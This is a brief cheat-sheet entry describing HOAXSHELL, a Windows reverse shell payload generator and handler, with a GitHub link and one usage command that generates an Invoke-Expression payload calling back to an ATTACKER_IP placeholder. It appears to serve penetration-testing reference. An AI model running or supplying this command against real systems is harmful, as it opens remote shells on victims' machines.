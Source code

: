 ```yaml
---
title: HOAXSHELL
summary: A Windows reverse shell payload generator and handler that abuses http(s) to establish reverse shell.
description: A Windows reverse shell payload generator and handler that abuses http(s) to establish reverse shell.
---
```


**https://github.com/t3l3machus/hoaxshell**

## Basis


 > 
 > **<font color=red>sudo python3 hoaxshell.py -s</font> \[ATTACKER_IP\]**</br>
 > Create a reverse shell payload (that utilizes `Invoke-Expression`) and start a handler.
